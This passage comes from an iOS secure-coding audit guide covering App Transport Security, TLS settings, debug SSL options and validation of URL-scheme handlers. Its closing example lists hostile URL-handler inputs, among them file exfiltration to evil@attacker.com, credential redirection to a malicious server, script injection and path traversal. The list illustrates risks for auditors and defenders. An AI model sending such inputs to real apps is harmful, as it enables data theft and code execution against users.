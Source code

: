> **Audit tip:** Check that the list of HTTPS domains in the `Info.plist` is
> correct.

In iOS 10, some new exceptions are available:

1. Exception for streaming media using `AVFoundation`

1. `NSAllowsArbitraryLoadsInWebContent` will exempt ATS in `WKWebView`

### Networking: Use native TLS/SSL securely

SSL should be used on all communication to prevent attackers from reading or
modifying traffic on the network.

> **Audit tip:** Check that all APIs besides local WebViews use SSL (https
> scheme, no http).

> **Audit tip:** Check that authorization tokens are never be passed in URLs but
> only in headers of HTTPS requests (e.g. as a Cookie header). The concern here
> is that they are unintentionally logged on a ISP/company proxy or accidentally
> leaked through referrers without the user’s knowledge.
>
> **Audit tip:** Check that no debug options for SSL have been enabled in the
> release build:
>
> *   `NSStream:`
>     *   `kCFStreamSSLLevel`
>     *   `kCFStreamSSLAllowsExpiredCertificates`
>     *   `kCFStreamSSLAllowsAnyRoot`
>     *   `kCFStreamSSLAllowsExpiredRoots`
>     *   `kCFStreamSSLValidatesCertificateChain`
> *   `NSURLRequest`
>     *   `setAllowsAnyHTTPSCertificate`
> *   `NSURLConnection`
>     *   `continueWithoutCredentialForAuthenticationChallenge`
> *   `ValidatesSecureCertificate`
> *   `setValidatesSecureCertificate`

## Issues with IO

### IO: Validate incoming URL handler calls

URI handlers are special entry points to the application and can be called from
email, chat, browser or other applications. They can be used as delivery vehicles for attacks that exploit logic bugs, XSS, XSRF-style bugs or buffer-overflows.

> **Audit tip:** Check for URI handlers registered and handled by the
> application (`registerForRemoteNotificationTypes` and `handleOpenURL`).

To illustrate the problem, some attack ideas that could be feasible:

``` 
myapp://cmd/run?program=/path/to/program/to/run
myapp://cmd/set_preference?use_ssl=false
myapp://cmd/sendfile?to=evil@attacker.com&file=some/data/file
myapp://cmd/delete?data_to_delete=my_document_ive_been_working_on
myapp://cmd/login_to?server_to_send_credentials=malicious.webserver.com
myapp://cmd/adduser='>"><script>javascript to run goes here</script>
myapp://use_template?template=/../../../../../../../../some/other/file
```
